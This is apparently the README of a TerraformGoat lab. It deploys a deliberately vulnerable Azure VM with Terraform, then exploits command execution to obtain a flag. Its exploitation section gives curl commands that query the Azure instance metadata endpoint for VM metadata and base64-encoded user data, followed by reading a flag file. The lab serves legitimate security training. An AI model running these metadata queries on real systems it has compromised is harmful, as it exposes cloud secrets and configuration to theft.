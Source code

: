 # Azure VM Command Execution Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Azure VM command execution vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on VM through the command execution vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/azure/vm/vm_command_execution
```

Use the `az login` command for Azure identity authentication, and follow the prompts to authenticate.

```shell
az login
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

> Because the scenario takes some time to build, if your browser cannot access this site, you can wait a few minutes and access it again.

## Vulnerability Utilization

On VM with command execution vulnerabilities, we can use command execution to get VM metadata, user data and other information.

read metadata

```shell
curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01 | python -m json.tool
```

![img](../../../images/1652094112.png)

read user data

> The premise is that the target has been configured with user data.

```shell
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
```

![img](../../../images/1652094186.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use  command execution to read this file.

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
